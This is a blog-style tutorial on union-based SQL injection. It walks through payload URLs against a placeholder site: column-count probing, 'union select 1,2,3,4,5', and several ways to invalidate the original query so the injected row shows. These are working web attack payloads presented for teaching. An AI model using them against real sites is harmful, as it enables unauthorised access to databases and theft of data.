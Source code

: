 ```yaml
---
title: Basic Union Based Injection
publishDate: 2017-02-25
author: Abhinav Kumar
image:   '~/assets/images/SQli.jpg'
excerpt: Basic Union Based Injection. In this tutorial we will learn how to inject Union based injection.
draft: false
category: WebAppSec
---
```


SQL Injection Basic Union Based Injection. In this tutorial we will learn how to inject Union based injection.

In our last tutorial we learnt how to find out the number of columns used under the query so that we can use Union select statement. So we will continue that same url and same injection we were injecting. In the last tutorial we found that the vulnerable URL is having 5 numbers of columns and the below query was working.


```
http://fakesite.com/report.php?id=23 order by 5--+
```

Now we will use Union select statement over here.

```
http://fakesite.com/report.php?id=23 union select 1,2,3,4,5--+
```

what will it do is concatenate one more row to the output which will look like this

```
| column1 | column2 | column3 | column4 | column5 |
| --- | --- | --- | --- | --- |
| anydata | anydata | anydata | anydata | anydata |
| 1 | 2 | 3 | 4 | 5 |
```

Here a small understanding of the web application is required, If you see any of these numbers printed in the webpage or the title or anywhere else then you can know the the developer is printing multiple rows. But in case you can not see any of these numbers printed then you can simply invalidate the first query so that it wont give any output and eventually your output will become the one and only output to be printed.

```
http://fakesite.com/report.php?id=23 and 0 union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=23 and false union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=-23 union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=23000000 union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=null union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=23 && 0 union select 1,2,3,4,5--+
```
Above i have specified some ways to make a query invalid but remember that & should be url encoded before usage. Now when we will use any of the above query, one row will come in output.
